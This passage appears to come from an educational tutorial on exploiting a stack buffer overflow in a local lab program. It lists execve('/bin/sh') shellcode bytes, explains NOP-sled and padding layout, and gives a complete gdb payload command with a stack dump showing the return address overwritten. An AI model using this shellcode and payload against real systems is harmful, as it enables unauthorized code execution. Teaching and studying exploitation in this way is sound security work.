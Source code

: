 The bytes of the shellcode are as follows:

```
\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

We need to fill the buffer with 80 bytes, but our shellcode is only 33 bytes. What should the rest be filled with?

A really good choice is to prefix our shellcode with a NOP-sled and postfix it with anything.

A NOP is an assembly instruction that performs no operation. A NOP-sled is a neat trick that makes it easier to "hit" our shellcode with the address we'll overwrite ret with. The address of the buffer can vary based on a lot of factors, so a NOP-sled will increase our chances of not jumping outside or in the middle of our shellcode.

> A NOP instruction has byte value 0x90 in x86 assembly.

> If we know the precise location of the buffer, the NOP-sled is redundant (but not a problem).

The reason we want to postfix our shellcode is to keep it away from `$rbp` (remember that `$rbp` becomes the `$rsp` of a function we return to), because when our shellcode executes, some of it's instructions may push things onto the stack, overwriting parts of itself. Postfixing the shellcode with junk helps prevents this.

Here's one possible input to exploit the vulnerable program:

```
| 30 NOP's | 33 byte shellcode | 17 a's | 8 b's | 8 byte ret |
```

The ret should be to somewhere in our NOP-sled (find the address of the buffer by looking at the assembly or at the stack and add some bytes). I've chosen 0x7fffffffd5a8 on my system.

We can use python to help us input the exploit code:

```
(gdb) run `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\xa8\xd5\xff\xff\xff\x7f"'`
```

The program pauses at the breakpoint we set before `strcpy`. Let's go to the next instruction and examine the stack:

```bash
(gdb) ni
(gdb) x/96xb $rbp-0x50
0x7fffffffd5a0: 0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x7fffffffd5a8: 0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x7fffffffd5b0: 0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x7fffffffd5b8: 0x90    0x90    0x90    0x90    0x90    0x90    0x48    0x31
0x7fffffffd5c0: 0xd2    0x48    0xbb    0xff    0x2f    0x62    0x69    0x6e
0x7fffffffd5c8: 0x2f    0x73    0x68    0x48    0xc1    0xeb    0x08    0x53
0x7fffffffd5d0: 0x48    0x89    0xe7    0x48    0x31    0xc0    0x50    0x57
0x7fffffffd5d8: 0x48    0x89    0xe6    0xb0    0x3b    0x0f    0x05    0x61
0x7fffffffd5e0: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffd5e8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffd5f0: 0x62    0x62    0x62    0x62    0x62    0x62    0x62    0x62
0x7fffffffd5f8: 0xa8    0xd5    0xff    0xff    0xff    0x7f    0x00    0x00
```
